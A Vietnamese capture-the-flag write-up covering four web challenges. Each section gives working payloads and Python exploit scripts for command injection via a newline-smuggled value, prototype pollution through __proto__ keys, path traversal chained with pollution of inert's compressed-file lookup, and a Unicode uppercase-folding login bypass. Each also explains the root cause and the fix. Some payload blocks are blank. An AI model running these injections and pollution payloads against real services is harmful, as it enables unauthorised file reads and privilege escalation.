








# TRX CTF 2026

## 1. Web - Who Is He

### Mô tả bài

Challenge cung cấp một website cho phép người dùng nhập domain để tra cứu thông tin `whois`.

Đoạn code xử lý chính:

```ruby
post '/lookup' do
  @domain = params[:domain]
  if @domain && @domain.match?(/^[a-z.-]+$/)
    stdout, stderr, status = Open3.capture3("whois #{@domain}")
    @result = stdout.empty? ? stderr : stdout
    @success = status.success?
  else
    @error = "Invalid domain format"
  end
  erb :result
end
```

Mục tiêu là khai thác lỗi trong chức năng lookup để đọc file `flag.txt`.

### Phân tích 

Input người dùng được lấy từ:

```ruby
@domain = params[:domain]
```

Sau đó chương trình kiểm tra bằng regex:

```ruby
@domain.match?(/^[a-z.-]+$/)
```

Nhìn qua thì regex này chỉ cho phép:
```
a-z
.
-
```

Ví dụ hợp lệ:
```
google.com
example.com
```

Tuy nhiên, trong Ruby, ký tự `^` và `$` là neo theo dòng, không phải toàn bộ chuỗi. Vì vậy payload có xuống dòng vẫn có thể vượt qua kiểm tra.

Ví dụ input:

```
google.com
cat flag.txt
```

Regex chỉ cần thấy dòng 1 hợp lệ là match được:
```
google.com
```

nên điều kiện vẫn trả về `true`. Nó không bắt buộc phải kiểm tra tiếp dòng 2. Sau đó input được đưa trực tiếp vào lệnh hệ thống:

```ruby
Open3.capture3("whois #{@domain}")
```

Lệnh thực tế trở thành:
```bash
whois google.com
cat flag.txt
```

Dấu xuống dòng `\n` được shell hiểu như ký tự phân tách lệnh. Vì vậy sau khi chạy `whois google.com`, server sẽ tiếp tục chạy:
```
cat flag.txt
```
Đây là lỗi **Command Injection**.

### Payload khai thác

Payload chính:
```
google.com
cat flag.txt
```

Khi gửi bằng HTTP form-urlencoded, newline sẽ được encode thành `%0A`:
```
domain=google.com%0Acat%20flag.txt
```



### Script lấy `flag`:

```python
import requests
import re

url = "http://localhost:1337/lookup"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:150.0) Gecko/20100101 Firefox/150.0", "Content-Type": "application/x-www-form-urlencoded"}

data = {"domain": "google.com\ncat flag.txt"}

r = requests.post(url, headers=headers, data=data)

m = re.search(r"TRX{.*?}", r.text)

if m:
    print(m.group(0))
else:
    print("Không tìm thấy flag")
```

### Root cause

#### Lỗi 1: Regex validate sai

Code dùng:
```ruby
/^[a-z.-]+$/
```
Trong Ruby, `^` và `$` có thể match theo từng dòng. Vì vậy input nhiều dòng vẫn có thể pass nếu dòng đầu hợp lệ.

Cách viết an toàn hơn:
```ruby
/\A[a-z.-]+\z/
```
Trong đó:

- `\A` là bắt đầu toàn bộ chuỗi.

- `\z` là kết thúc toàn bộ chuỗi.

#### Lỗi 2: Gọi command bằng string

Code nguy hiểm:
```ruby
Open3.capture3("whois #{@domain}")
```

Vì truyền cả command dưới dạng string, shell có thể xử lý các ký tự đặc biệt như `newline`, `;`, `&&`, `|`.

Cách sửa an toàn hơn:
```ruby
Open3.capture3("whois", @domain)
```
Khi truyền argument riêng như vậy, input chỉ được xem là tham số của chương trình `whois`, không bị shell diễn giải thành lệnh mới.

## 2. Web - Junkiness

### Mô tả bài

Challenge có chức năng:
```
/register  -> đăng ký user
/login     -> đăng nhập
/flag      -> chỉ admin mới xem được flag
```

Đoạn quan trọng:
```javaScript
const users = {};
```

Khi đăng ký:
```javaScript
users[username] = { username, password, isAdmin: false };
```

Khi đăng nhập:
```javaScript
const user = users[username];

if (user.password !== password) {
    return res.status(401).json({ message: "Invalid password." });
}

req.session.user = user;
```

Khi lấy flag:
```javaScript
if (req.session.user && req.session.user.isAdmin) {
    res.json(FLAG);
}
```

Mục tiêu là làm sao để `req.session.user.isAdmin` là giá trị `đúng`.

### Phân tích 

Ứng dụng có validate `username`:
```javaScript
if (username.length > 8) {
    return res.status(400).json({ message: "Username must not be longer than 8 characters." });
}

if (/\W/.test(username)) {
    return res.status(400).json({ message: "Username must be an alphanumeric string." });
}
```

Tác giả nghĩ `username` luôn là `string`, ví dụ:
```
kido
admin
test
```
Nhưng server dùng:
```javaScript
app.use(express.urlencoded({ extended: true }));
```

Nên ta có thể gửi dữ liệu dạng `object/array` bằng `form-urlencoded`.

Ví dụ gửi:

```javaScript
username[]=__proto__
```

thì Express parse thành:
```javaScript
username = ["__proto__"]
```

Tức là username không còn là `string` nữa, mà là `array`. Khi đó:

```JavaScript
username.length = 1
```

nên vượt qua check độ dài.

Còn regex:
```javaScript
/\W/.test(username)
```

sẽ ép array thành string:
```javaScript
["__proto__"].toString() === "__proto__"
```

Chuỗi `__proto__` không bị chặn vì `_` vẫn thuộc nhóm `\w`, nên validate pass.

Sau đó server lưu user:
```javaScript
users[username] = { username, password, isAdmin: false };
```

Vì username là `array ["__proto__"]`, khi dùng làm key object sẽ bị ép thành `string`:
```javaScript
users["__proto__"] = { username, password, isAdmin: false };
```

Trong JavaScript,` __proto__` là key đặc biệt dùng để thay đổi `prototype` của `object`. Do đó ta có thể kiểm soát `prototype` của `users`.

### Payload khai thác

Payload đăng ký:



sẽ tạo ra:
```javaScript
password = {
    password: "12345678",
    isAdmin: "true"
}
```

Sau khi gán vào `users["__proto__"]`, object users có `prototype` chứa `property password`.

Khi login bằng:



server chạy:

```javaScript
const user = users[username];
```

tức là:
```javaScript
const user = users["password"];
```

Do `users.password` tồn tại trong `prototype`, `user` sẽ trở thành:
```javaScript
{
    password: "12345678",
    isAdmin: "true"
}
```

Check password pass:
```javaScript
user.password !== password
```
vì: `"12345678" === "12345678"`

Sau đó `session` được gán:
```javaScript
req.session.user = user;
```

Khi truy cập `/flag`, điều kiện này đúng:
```javaScript
req.session.user && req.session.user.isAdmin
```

vì:
```javaScript
req.session.user.isAdmin = "true"
```

String `true` là giá trị `truthy` trong JavaScript.



### Script lấy `flag`

```py
import requests

url = "http://4712734ddb96.junkiness.ctf.theromanxpl0.it"

s = requests.Session()
headers = {"Content-Type": "application/x-www-form-urlencoded"}

# Register with prototype pollution payload
register_url = f"{url}/register"
register_data  = {"username[]": "__proto__", "password[password]": "12345678", "password[isAdmin]": "true"}
r = s.post(register_url, headers=headers, data=register_data)
print("[+] Register:", r.status_code)

# Login with the new admin credentials
login_url = f"{url}/login"
login_data = {"username": "password", "password": "12345678"}
r = s.post(login_url, headers=headers, data=login_data)
print("[+] Login:", r.status_code)

# Access the flag
flag_url = f"{url}/flag"
r = s.get(flag_url)
print("Flag:", r.text)
```

### Root cause

Root cause của bài này là `prototype pollution` / `prototype manipulation` do kết hợp các lỗi sau:
```javaScript
const users = {};
```

Ứng dụng dùng object thường `{}` để lưu `user`, nên object này có prototype.
```javaScript
app.use(express.urlencoded({ extended: true }));
```

Server cho phép parse nested object/array từ form-urlencoded.
```javaScript
users[username] = { username, password, isAdmin: false };
```

Ứng dụng dùng key do user kiểm soát để gán trực tiếp vào object.

Ngoài ra, validate không kiểm tra kiểu dữ liệu:
```javaScript
if (username.length > 8)
if (/\W/.test(username))
```

Code chỉ kiểm tra length và regex, nhưng không kiểm tra:
```javaScript
typeof username === "string"
```

Do đó attacker có thể gửi:
```javaScript
username[]=__proto__
```

làm `username` trở thành `array`, vượt qua validate, rồi khi gán vào `users[username]` sẽ thành `users["__proto__"]`

Từ đó prototype của users bị thay đổi, cho phép tạo ra user giả có:
```javaScript
password: "12345678"
isAdmin: "true"
```
và đăng nhập để lấy flag.

## 3. Web - Short Notes

### Mô tả bài

Challenge là một ứng dụng ghi chú đơn giản dùng `Hapi.js`. Người dùng có thể:

```
POST /notes        -> tạo note
GET /notes         -> xem danh sách note
GET /note/{title}  -> đọc note theo title
```

Dockerfile cho biết flag được đặt tại:

```dockerfile
RUN mkdir /secrets
COPY flag.txt /secrets/super_secret_flag.txt
```

Vậy mục tiêu là đọc file:

```
/secrets/super_secret_flag.txt
```

### Phân tích 

Ứng dụng lưu note trong thư mục tạm:

```javaScript
const STORE = path.join(os.tmpdir(), `notes_${Math.random().toString(36).substring(2, 15)}`);
const file = t => path.join(STORE, t);
```

Ví dụ `STORE` sẽ có dạng:
```
/tmp/notes_xxxxx
```

Khi tạo note, server ghi file theo `title`:

```javaScript
await fs.writeFile(file(note.title), JSON.stringify(note, null, 2));
```

Khi đọc note, server cũng lấy `title` để tạo đường dẫn file:

```javaScript
const title = validateTitle(req.params.title);
const filepath = file(title);
await fs.access(filepath);
return h
  .file(filepath, { confine: false, filename: title })
  .type('application/json');
```

Hàm validate chỉ kiểm tra `title` có phải string và độ dài không quá 8 ký tự:

```javaScript
const validateTitle = t => {
  if (!t)
    throw new Error('Title required');
  if (typeof t !== 'string')
    throw new Error('Title must be a string');
  if (t.length > 8)
    throw new Error('Title too long (max 8 chars)');
  return t;
};
```

Nó không chặn:

```
../
/
..
```

Do đó có lỗi `path traversal`. Tuy nhiên ta không thể đọc `flag` trực tiếp bằng:

```
../../secrets/super_secret_flag.txt
```

vì payload này dài hơn 8 ký tự.

Ta cần kết hợp thêm `prototype pollution` ở hàm `parseQuery()`:

```javaScript
function parseQuery(qs = '') {
  const out = {};
  for (const pair of qs.split('&')) {
    if (!pair) continue;
    let [k, v = ''] = pair.split('=');
    k = decodeURIComponent(k.replace(/\+/g, ' '));
    v = decodeURIComponent(v.replace(/\+/g, ' '));
    const parts = k.split(/\[|\]/).filter(Boolean);
    let cur = out;
    for (let i = 0; i < parts.length - 1; i++) {
      cur = cur[parts[i]] = cur[parts[i]] || {};
    }
    cur[parts.at(-1)] = v;
  }
  return out;
}
```

Hàm này cho phép query dạng object lồng nhau, ví dụ:
```
a[b][c]=value
```

Nhưng nó không chặn key nguy hiểm như:

```javaScript
__proto__
constructor
prototype
```

Vì vậy có thể pollute `Object.prototype` bằng payload:

```javaScript
__proto__[lookupCompressed]=true
__proto__[lookupMap][gzip]=ecrets/super_secret_flag.txt
```

Sau khi pollute, các object trong chương trình có thể kế thừa:

```javaScript
lookupCompressed = "true"
lookupMap = {
  gzip: "ecrets/super_secret_flag.txt"
}
```

Điểm quan trọng là endpoint `/note/{title}` dùng:

```javaScript
h.file(filepath, { confine: false, filename: title })
```

`h.file()` thuộc thư viện `@hapi/inert`. Inert có cơ chế tìm file nén tương ứng nếu request có header:

```
Accept-Encoding: gzip
```

Bình thường nó sẽ tìm file nén như:

```
/path/to/file.gz
```

Nhưng do ta pollute `lookupMap.gzip`, nó sẽ nối suffix do ta kiểm soát vào sau filepath.

Vì flag ở:
```
/secrets/super_secret_flag.txt
```

ta tạo trước một file tên ngắn là:

```
/s
```

Sau đó ép Inert đọc file nén tương ứng:

```
/s + ecrets/super_secret_flag.txt
= /secrets/super_secret_flag.txt
```


### Payload khai thác

**Bước 1: Tạo file `/s` bằng path traversal.**



Payload `../../s` dài 7 ký tự nên qua được validate.

Vì STORE nằm trong `/tmp/notes_xxxxx`, đường dẫn sẽ thành:

```
/tmp/notes_xxxxx/../../s
=> /s
```

**Bước 2: Prototype pollution.**



Dạng decoded:

```javaScript
__proto__[lookupCompressed]=true
__proto__[lookupMap][gzip]=ecrets/super_secret_flag.txt
```

**Bước 3: Trigger đọc flag.**



Server sẽ đọc file gốc:
```
/s
```

Sau đó do `lookupCompressed` và `lookupMap.gzip` đã bị pollute, Inert sẽ tìm file tương ứng:

```
/s + ecrets/super_secret_flag.txt
= /secrets/super_secret_flag.txt
```

Kết quả trả về là nội dung flag.

### Script lấy `flag`

```py
import requests

BASE = "http://3a86cf2b041c.short-notes.ctf.theromanxpl0.it"

s = requests.Session()

# 1. Create /s
r = s.post(
    f"{BASE}/notes",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data="title=..%2F..%2Fs&content=x"
)

print("[+] Create /s:", r.status_code, r.text)

# 2. Prototype pollution
pollute_url = (
    f"{BASE}/notes"
    "?__proto__%5BlookupCompressed%5D=true"
    "&__proto__%5BlookupMap%5D%5Bgzip%5D=ecrets%2Fsuper_secret_flag.txt"
)

r = s.get(pollute_url)
print("[+] Pollute:", r.status_code)

# 3. Trigger file read
r = s.get(
    f"{BASE}/note/..%2F..%2Fs",
    headers={"Accept-Encoding": "gzip"},
    stream=True
)

r.raw.decode_content = False
body = r.raw.read().decode(errors="replace")

print("[+] Flag response:")
print(body)
```

### Root cause

Root cause của bài này là sự kết hợp của nhiều lỗi:

Thứ nhất, `title` bị validate không chặt:

```javaScript
if (t.length > 8)
  throw new Error('Title too long (max 8 chars)');
```

Code chỉ giới hạn độ dài, nhưng không chặn `../`, `/`, hoặc `\`, dẫn tới **path traversal**.

Thứ hai, server dùng đường dẫn từ user input để đọc và ghi file:

```javaScript
const file = t => path.join(STORE, t);
```

Do đó attacker có thể thoát khỏi thư mục `STORE`.

Thứ ba, `h.file()` được gọi với:

```javaScript
{ confine: false, filename: title }
```

`confine: false` làm mất giới hạn thư mục an toàn khi trả file.

Thứ tư, hàm `parseQuery()` tự viết có **prototype pollution**:

```javaScript
cur = cur[parts[i]] = cur[parts[i]] || {};
```

Nó không chặn các key nguy hiểm như:

```
__proto__
constructor
prototype
```

nên attacker có thể pollute `Object.prototype`.

Thứ năm, app chạy trong Docker bằng user `root` mặc định vì `Dockerfile` không có:

```dockerfile
USER node
```
Do đó attacker có thể tạo file `/s` ở thư mục `root`.


## 4. Web - StifflingFluffiness

### Mô tả bài 

Ứng dụng là một blog đơn giản viết bằng Express/EJS. Trong dữ liệu bài viết có một comment chứa `flag`:

```javaScript
{ user: ADMIN_USERNAME, text: `Thank you! Here is the flag: ${FLAG}` }
```

Tuy nhiên, comment chỉ được hiển thị nếu session có quyền admin:

```javaScript
comments: req.session.isAdmin ? post.comments : undefined
```

Mục tiêu là đăng nhập sao cho:

```javaScript
req.session.isAdmin = true
```

### Phân tích

Route `/login` chỉ nhận `username`, không yêu cầu mật khẩu:

```javaScript
app.post("/login", (req, res) => {
    const { username } = req.body;

    if (!username || username.length < 4 || username.length > 12) {
        req.session.error = "Invalid username";
        return res.redirect("/");
    }

    req.session.username = username;
    req.session.isAdmin = username.toUpperCase() === ADMIN_USERNAME.toUpperCase();
    res.redirect("/");
});
```

Admin `username` trong `config.js` là: `StifflingFluffiness`

Vấn đề là `StifflingFluffiness` dài hơn 12 ký tự, nên không thể login trực tiếp vì bị chặn bởi điều kiện: `username.length > 12`

Nhưng ứng dụng lại so sánh sau khi gọi:

```javaScript
username.toUpperCase()
```

Trong JavaScript, một số ký tự Unicode khi gọi `.toUpperCase()` sẽ bung ra thành nhiều ký tự `ASCII`.

Ví dụ:
```javaScript
"ſt".toUpperCase() === "ST"
"ffl".toUpperCase() === "FFL"
"fl".toUpperCase() === "FL"
"ffi".toUpperCase() === "FFI"
"ß".toUpperCase() === "SS"
```

Do đó ta có thể tạo một username chỉ dài 12 ký tự, nhưng sau khi `.toUpperCase()` sẽ trở thành: STIFFLINGFLUFFINESS

### Payload khai thác

Payload đúng:
```
ſtIfflINGflUffiNEß
```

Payload này bypass được giới hạn `username.length <= 12`, nhưng sau khi xử lý uppercase thì khớp với admin username.



### Script lấy `flag`

```py
import requests
import re

BASE = "http://localhost:3000"

payload = "ſtIfflINGflUffiNEß"

s = requests.Session()

s.post(BASE + "/login", data={
    "username": payload
})

r = s.get(BASE + "/")

m = re.search(r"TRX\{[^}]+\}", r.text)

if m:
    print(m.group(0))
else:
    print("Không tìm thấy flag")
```

### Root cause

Lỗi nằm ở việc xác thực admin chỉ dựa trên username và so sánh sau khi gọi `.toUpperCase()`:

```javaScript
req.session.isAdmin = username.toUpperCase() === ADMIN_USERNAME.toUpperCase();
```

Ứng dụng nghĩ rằng giới hạn `username.length <= 12` sẽ ngăn người dùng nhập đúng admin username dài hơn 12 ký tự. Tuy nhiên, JavaScript Unicode case mapping cho phép một ký tự khi uppercase bung thành nhiều ký tự, ví dụ `ffi -> FFI`, `ß -> SS`.

Vì vậy attacker có thể nhập một chuỗi Unicode ngắn hơn hoặc bằng 12 ký tự, nhưng sau `.toUpperCase()` lại biến thành đúng admin username.
